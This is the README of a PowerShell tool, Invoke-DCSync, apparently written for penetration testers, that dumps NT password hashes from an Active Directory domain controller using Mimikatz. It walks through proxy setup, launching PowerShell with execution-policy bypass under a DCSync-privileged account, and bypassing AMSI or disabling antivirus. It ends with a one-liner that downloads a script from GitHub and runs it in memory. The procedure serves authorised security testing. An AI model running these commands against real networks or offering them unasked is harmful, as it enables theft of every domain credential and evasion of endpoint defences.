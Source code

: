 # Invoke-DCSync
PowerShell script to DCSync NT-Hashes from an Active Directory Domain Controller (DC) via Mimikatz. 

## General Preparation

1. Connect to the internal AD network via VPN or directly, if on-site.
2. Configure your operating system's proxy to use the client's proxy. Internet is required to download Invoke-Mimikatz and Invoke-DCSync PS scripts. Alternatively, configure a known proxy via PS:

````
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyServer -Value "127.0.0.1:8080"
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyEnable -Value 1
````
3. Open a new PowerShell terminal as another user; use a privileged domain user account with DCSync rights

````
runas.exe /netonly /noprofile /user:mydomain.prod.dom\dcsyncUser "powershell.exe -ep bypass"
````

4. Verify authenticated AD access within your PowerShell terminal window

## DCSync Preparation

It is recommended to bypass AMSI for the current PowerShell session. 

Either use a 0-Day payload or disable AV temporarily during the hash dumping process.

# DCSync Execution

Download ``Invoke-DCSync.ps1`` into memory, which executes the DCSync process. You will be prompted to start the DCSync process and the output directory with all relevant files will be automatically opened by Window's file explorer.

````
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/pentestfactory/Invoke-DCSync/main/Invoke-DCSync.ps1')
````

